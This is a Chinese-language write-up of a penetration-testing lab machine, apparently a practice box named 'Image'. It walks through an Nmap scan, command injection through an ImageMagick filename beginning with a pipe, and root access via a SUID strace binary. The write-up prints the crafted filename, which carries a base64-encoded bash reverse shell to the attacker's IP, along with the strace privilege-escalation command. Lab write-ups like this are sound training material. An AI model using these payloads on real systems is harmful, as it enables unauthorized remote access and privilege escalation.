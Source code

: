 ```yaml
---
description: Linux / 中等 / ImageMagick 6.9.6-4 / shell命令注入 / SUID提权
---
```


# ✔️ Image

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA image 192.168.210.178 --open
```

<figure><img src="../../.gitbook/assets/1 (27).png" alt=""><figcaption></figcaption></figure>

* 首先查看80端口的Web页面进行检查，是一个有上传功能的界面，猜测可能是一个文件上传漏洞：

<figure><img src="../../.gitbook/assets/2 (27).png" alt=""><figcaption></figcaption></figure>

* 根据尝试上传图片的返回信息，目标系统只接受后缀为JPEG和PNG格式的图片文件：

<figure><img src="../../.gitbook/assets/3 (23).png" alt=""><figcaption></figcaption></figure>

* 上传成功一个测试图片后，发现返回了当前正在运行的ImageMagick的版本号：6.9.6-4

<figure><img src="../../.gitbook/assets/4 (26).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索公开已知的漏洞发现有一个命令注入的漏洞：

<figure><img src="../../.gitbook/assets/5 (27).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据漏洞描述，得知打开任何以管道符（|）字符开头的图像文件时，ImageMagick将执行文件名剩余部分的命令，这意味着构建一个以管道符开头且包含反弹shell的图片文件名后，再次上传即图片可触发该漏洞：

<figure><img src="../../.gitbook/assets/6 (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (26).png" alt=""><figcaption></figcaption></figure>

```bash
# 构建过程
cp test.png '|test.png'
echo -n 'bash -i >& /dev/tcp/192.168.45.234/4444 0>&1' | base64
cp test.png '|test"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNC80NDQ0IDA+JjE=| base64 -d | bash`".png'
```

<figure><img src="../../.gitbook/assets/8 (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (25).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 本机做好监听即可成功获取到shell：

<figure><img src="../../.gitbook/assets/10 (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (26).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举一下：

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/12 (25).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据枚举结果发现有很多文件设置了SUID位，运气很好，第一个strace就在GTFOBins中找到了对应可以提权的命令：

<figure><img src="../../.gitbook/assets/13 (25).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接使用该命令提权成功，ROOT!

```bash
strace -o /dev/null /bin/sh -p
```

<figure><img src="../../.gitbook/assets/14 (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (21).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例属于简单级别的机器，端口开放的少，不用太多枚举就能锁定漏洞，构建文件名需要多次尝试但其利用过程简单。提权过程也很简单，常规的手动枚举即可找到可以利用的点。
{% endhint %}
